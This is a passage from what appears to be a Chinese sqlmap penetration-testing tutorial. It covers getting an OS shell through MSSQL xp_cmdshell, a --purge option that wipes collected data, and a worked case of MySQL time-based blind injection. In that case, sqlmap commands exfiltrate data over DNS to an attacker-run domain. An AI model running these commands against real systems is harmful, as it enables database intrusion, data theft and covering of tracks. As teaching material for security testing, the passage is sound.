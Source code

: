 
* 获取系统shell - 通过数据库 - Mcrosoft SQL Server
    * 前提条件:`xp_cmdshell`扩展存储过程这一配置处于开启状态，或者可以被开启
    * 利用过程:使用`xp_cmdshell`扩展存储过程(extended stored procedure)，它是SQL Server的一个配置项，启用时能让SQL Server账号执行操作系统命令，返回文本行
      * 如果`xp_cmdshell`存储过程 被禁用(Microsoft SQL Server >= 2005 默认禁用)sqlmap会重新启用它
      * 如果`xp_cmdshell`存储过程 不存在 则从头开始创建它



#### 参数 - 痕迹清理

```
--purge
```

安全删除 数据文件夹`$HOME/.local/share/sqlmap`下所有获取到的数据.
 
数据文件夹 (子)目录中的所有文件将被随机数据覆盖.文件名也会随机覆盖.

```
python sqlmap.py --purge -v 3
[...]
[xx:xx:55] [INFO] purging content of directory '/home/testuser/.local/share/sqlmap'...
[xx:xx:55] [DEBUG] changing file attributes
[xx:xx:55] [DEBUG] writing random data to files
[xx:xx:55] [DEBUG] truncating files
[xx:xx:55] [DEBUG] renaming filenames to random values
[xx:xx:55] [DEBUG] renaming directory names to random values
[xx:xx:55] [DEBUG] deleting the whole directory tree
[...]
```

### 案例1 - MySQL - 基于时间的盲注 要用DNS才能快速获取数据

* 场景 - windows服务器的web应用 参数id 存在 MySQL SQLi 类型为`基于时间的盲注` 如何快速获取数据? 
  * 操作系统:windows
  * 数据库类型:MySQL
  * SQLi类型:**基于时间的盲注**  (变换思路 思考其他数据外传的办法!!)

原理参考[类型6 - "带外"(out-of-band)](web_vul_sqli.md#类型6---带外out-of-band)

【实际测试】获取数据-自动化
```
# 对比这2个方法
【方法1】
# 基于时间的盲注 - 拿数据方法1: 根据延时来跑数据 (很慢!!!)
python sqlmap.py -u "http://vul.com/user.php?id=1" -p id --tech=T --dbms mysql --dbs

【方法2】
# 基于时间的盲注 - 拿数据方法2: 使用带外请求(OOB) 利用 DNS exfiltration跑数据.  很快!!!!!!!!
# 注意:
# YOUR.com 的IP为 114.1.1.1  且设置了DNS Host 也就是把所有尝试解析YOUR.com的那些DNS请求 都发送到ns1.YOUR.com的53号UDP端口
# ns1.YOUR.com 的IP为 114.1.1.1
# 在这台机器上运行以下sqlmap命令 注意参数--dns-domain 会在53端口开启一个DNS服务作为ns服务器 接收对YOUR.com的DNS请求(得到其中携带的数据)
python sqlmap.py -u "http://vul.com/user.php?id=1" -p id --dbms mysql --dbs --dns-domain=YOUR.com
[07:25:21] [INFO] testing for data retrieval through DNS channel
```

